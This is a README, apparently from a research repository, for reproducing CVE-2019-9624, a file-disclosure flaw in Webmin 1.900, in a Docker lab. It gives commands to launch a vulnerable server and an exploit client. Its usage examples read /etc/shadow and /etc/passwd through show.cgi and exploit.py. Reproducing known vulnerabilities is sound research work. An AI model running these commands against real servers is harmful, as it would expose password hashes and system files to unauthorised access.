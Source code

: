# CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        docker run --rm -p 10000:10000 -it simaofsilva/cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```
* Client
```shell script
docker run --rm simaofsilva/cve-2019-9624-client --host SERVER_IP --port 10000 --user test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
Examples of use:
* <https://SERVER-IP:10000/file/show.cgi/etc/shadow>
* `python3 exploit.py --host <SERVER-IP> --port 10000 -u test --pass qwerty --file "/etc/passwd"`
